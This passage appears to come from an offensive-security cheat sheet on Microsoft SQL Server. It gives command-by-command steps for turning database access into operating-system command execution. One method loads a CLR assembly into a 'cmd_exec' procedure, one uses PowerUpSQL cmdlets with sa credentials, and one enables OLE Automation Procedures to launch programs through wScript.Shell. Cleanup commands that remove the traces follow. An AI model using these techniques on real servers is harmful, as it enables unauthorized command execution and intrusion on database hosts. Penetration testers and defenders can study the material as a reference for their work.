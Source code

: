 Import the assembly from string:
```
CREATE ASSEMBLY [NMfsa] AUTHORIZATION [dbo] FROM 0x4D5A90......
```

Link the assembly to a stored procedure
```
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
GO
```

Execution:
```
cmd_exec 'whoami'
```

```
Invoke-SQLOSCmdCLR -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
```

Cleanup:
```
DROP PROCEDURE cmd_exec
DROP ASSEMBLY my_assembly
```

List all CLR assemblies:
```
Get-SQLStoredProcedureCLR -Instance instance -Verbose
```

# OLE Automation Procedure

* Disabled by default
* `sysadmin` privileges are required by-default.
* Execution takes place with privileges of the service account
* Execute privileges on sp_OACreate and sp_OAMethod can also be used for execution.

> https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option

Enabling:
```
sp_configure 'show advanced options', 1;
GO
RECONFIGURE;
GO
sp_configure 'Ole Automation Procedures', 1;
GO
RECONFIGURE;
GO
```

Execute:
```
DECLARE @output INT
DECLARE @ProgramToRun VARCHAR(255)
SET @ProgramToRun = 'Run("calc.exe")'
EXEC sp_oacreate 'wScript.Shell', @output out
EXEC sp_oamethod @output, @ProgramToRun
EXEC sp_oadestroy @output
```
